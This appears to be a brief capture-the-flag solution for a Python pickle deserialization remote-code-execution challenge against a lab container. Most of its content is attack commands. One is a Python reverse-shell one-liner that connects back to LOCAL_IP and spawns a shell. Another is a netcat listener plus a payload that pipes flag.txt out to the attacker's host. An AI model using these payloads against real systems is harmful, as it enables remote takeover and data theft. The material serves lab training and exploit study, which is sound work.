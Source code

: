 # Solution

Make sure to put the correct port/IP in the PoC example:
```python
API_BASE_URL = 'http://172.17.0.2:5000/apiv1'
```

## Resources
- [exploit-notes.hdks](https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/)
- [Pickles deserialization RCE explaination](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

## Method 1
To get a reverse shell:

```bash
python exploit.py --action exploit --payload "python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"LOCAL_IP\",PORT));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'"
```
## Method 2
To get the flag directly, start a netcat listener then get the flag:

```bash
nc -lvnp PORT 
python exploit.py --action exploit --payload "sh -c 'cat flag.txt | nc LOCAL_IP PORT'"
```


